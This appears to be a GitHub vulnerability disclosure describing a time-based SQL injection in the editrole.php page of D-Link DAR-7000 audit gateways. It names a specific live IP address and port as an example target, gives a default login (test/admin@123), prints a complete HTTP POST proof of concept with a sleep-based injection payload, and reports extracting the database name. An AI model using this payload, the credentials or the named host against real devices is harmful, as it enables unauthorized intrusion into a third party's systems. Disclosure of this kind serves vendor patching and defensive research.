 There is a backend SQL injection vulnerability in the D-LINK DAR-7000 series online behavior audit gateway. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

 Vulnerability Path  ：/sysmanage/editrole.php![image](https://github.com/flyyue2001/cve/assets/88701694/1a753901-4af6-4cd0-bf04-45221039308f)


See the login page.

https://60.22.74.195:8443/

<img width="718" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/11fd46a4-ad7f-424d-a539-d628fc65af71">



There is a default account password present： test/admin@123



<img width="725" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/14f77281-6e6f-4058-9091-72e27a648569">



​                               

 Construct the following POC to determine the presence of SQL injection for the id parameter  

POC:
POST /sysmanage/editrole.php HTTP/1.1
Host: 
Cookie: PHPSESSID=bbecd470b51ebcf03793acadba87a61f
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

hid_id=(select*from(select(sleep(3)))a)![image](https://github.com/flyyue2001/cve/assets/88701694/7a4ee400-b2fb-40bf-9b50-5de605e8f0ff)


<img width="731" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/988549dd-1e61-4677-9c58-5aaafe27d0cf">


 By analogy, obtain the database name nsg    

<img width="725" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/4149a219-fa7a-45d2-9154-a3b2e336f084">

 
